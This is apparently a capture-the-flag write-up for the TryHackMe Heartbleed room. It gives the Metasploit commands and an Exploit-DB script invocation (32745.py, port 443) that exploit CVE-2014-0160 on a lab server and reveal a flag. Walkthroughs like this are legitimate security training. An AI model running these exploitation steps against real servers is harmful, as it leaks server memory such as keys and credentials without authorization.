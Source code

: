 # [HeartBleed](https://tryhackme.com/room/heartbleed)

## SSL issues are still lurking in the wild! Can you exploit this web servers OpenSSL?

# Protecting Data In Transit

## In this task, you need to obtain a flag using a very well-known vulnerability. Make sure you pay attention to all the information and errors displayed. Pay particular attention to how web servers are configured.

### What is the flag?

Hint: `https://<ip>`

1. Exploit vulnerability using Metasploit

```Bash
msfconsole -q
search heartbleed
use 4
```

![SCREEN01](https://github.com/user-attachments/assets/9b029ace-6c78-4483-ab9b-c789023244d2)

```Bash
set rhosts <IP>
set verbose true
run
```

![SCREEN02](https://github.com/user-attachments/assets/f0d49602-cc80-47f0-967d-8faf7ee413e5)

2. Get the flag from message

![SCREEN03](https://github.com/user-attachments/assets/d0145b6d-d2df-4ba0-aeff-cf15e8949ac7)

### Alternative way:

1. Run the [CVE 2014-0160](https://www.exploit-db.com/exploits/32745) exploit (Remember to set scrollback to 'Unlimited')

```Bash
python 32745.py <IP> -p 443
```

![SCREEN04](https://github.com/user-attachments/assets/51362b41-a6c6-4ac1-83f0-72d9408e6ed8)
![SCREEN05](https://github.com/user-attachments/assets/183c3a81-9a75-45a3-8ae9-7eaf79e5d1ad)
